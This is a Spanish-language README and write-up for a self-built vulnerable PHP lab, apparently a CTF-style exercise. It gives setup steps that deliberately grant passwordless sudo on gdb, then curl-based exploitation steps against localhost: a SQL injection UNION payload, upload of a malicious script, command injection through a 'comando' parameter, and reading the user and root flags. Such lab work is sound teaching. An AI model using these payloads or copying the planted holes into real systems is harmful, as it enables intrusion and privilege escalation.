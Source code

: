 ## **PASOS A SEGUIR:**
1.descargar zip  
2.extraerlo  
3.poner los archivos en home de user1  
4.abrir una terminal  
5. HACER:  
chmod +x setup_OVA.sh  
./setup_OVA.sh  
  
chmod +x automatizado.sh  
./automatizado.sh <<IP>> <<PUERTO>>  



---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`automatizado.sh`**:
   Este script automatiza el proceso de explotación, realizando todos los pasos necesarios, desde la inyección SQL hasta la extracción de las *flags*. Diseñado para ahorrar tiempo, simplifica el ataque para evitar realizar comandos manuales.

   #### **Acciones Automatizadas**
   - Realiza la inyección SQL para extraer credenciales.
   - Se autentica automáticamente como administrador en el sistema.
   - Sube el archivo malicioso `gdb.sh` al servidor.
   - Ejecuta comandos en el servidor remoto para explotar la vulnerabilidad RCE.
   - Escala privilegios con `gdb` y lee las *flags*.

   #### **Instrucciones de Uso**:
   Ejecutar el script directamente:
   ```bash
   chmod +x automatizado.sh
   ./automatizado.sh
   ```

   Durante la ejecución, el script muestra las acciones realizadas y los resultados, incluyendo el contenido de las *flags*.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash 
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---
